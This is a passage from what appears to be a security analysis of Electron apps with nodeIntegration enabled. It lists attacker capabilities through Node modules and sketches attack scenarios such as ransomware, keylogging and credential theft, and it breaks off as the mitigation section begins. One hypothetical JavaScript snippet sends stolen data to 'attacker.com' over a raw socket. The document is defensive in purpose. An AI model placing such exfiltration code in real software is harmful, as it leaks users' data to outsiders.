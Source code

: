 *   **Network Access (`net`, `http`, `https`):**
    *   The attacker can establish arbitrary network connections, both inbound and outbound. This allows for:
        *   Data exfiltration.
        *   Command and control (C2) communication.
        *   Scanning the local network.
        *   Launching attacks against other systems.
        *   Acting as a proxy.
    *   **Example (Hypothetical):**
        ```javascript
        const net = require('net');
        const client = net.createConnection({ host: 'attacker.com', port: 1337 }, () => {
          client.write('exfiltrated_data=' + sensitiveData); // Send stolen data
        });
        ```

*   **Other Node.js Modules:**
    *   **`crypto`:**  Could be used to decrypt (or encrypt) data, potentially bypassing application-level security.
    *   **`os`:**  Provides information about the operating system, which can be used for reconnaissance.
    *   **`process`:**  Allows manipulation of the Electron process itself, potentially hindering detection or termination.
    *   **`vm`:**  Allows execution of JavaScript code in a separate context, which could be used to further obfuscate malicious activity.
    *   **`worker_threads`:** Could be used to create background threads for persistent malicious activity.

### 2.3 Attack Scenarios

Here are a few specific, realistic attack scenarios:

*   **Scenario 1: Ransomware Deployment:** The attacker uses `child_process.exec()` to download and execute ransomware, encrypting the user's files and demanding payment for decryption.
*   **Scenario 2: Data Exfiltration:** The attacker uses `fs` to read sensitive files (e.g., documents, configuration files, database files) and then uses `net` to send the data to a remote server.
*   **Scenario 3: Keylogger Installation:** The attacker uses `child_process.exec()` to install a keylogger, capturing all keystrokes and sending them to the attacker.
*   **Scenario 4: Botnet Participation:** The attacker uses `child_process.exec()` to download and execute a botnet client, adding the compromised machine to a botnet used for DDoS attacks or other malicious activities.
*   **Scenario 5: Credential Theft:** The attacker uses `fs` to search for and steal saved credentials from web browsers or other applications.
*   **Scenario 6: System Sabotage:** The attacker uses `child_process.exec()` to delete critical system files or modify system configurations, rendering the system unusable.
* **Scenario 7: Cryptocurrency Miner:** The attacker uses `child_process` to run a cryptocurrency miner in the background, using the victim's resources for profit.

### 2.4 Mitigation Verification

The primary mitigation, as stated, is to **ensure `nodeIntegration` is *always* disabled in the main process.** This is the default behavior in recent Electron versions, but it's crucial to explicitly set `nodeIntegration: false` in the `webPreferences` of the `BrowserWindow` constructor:
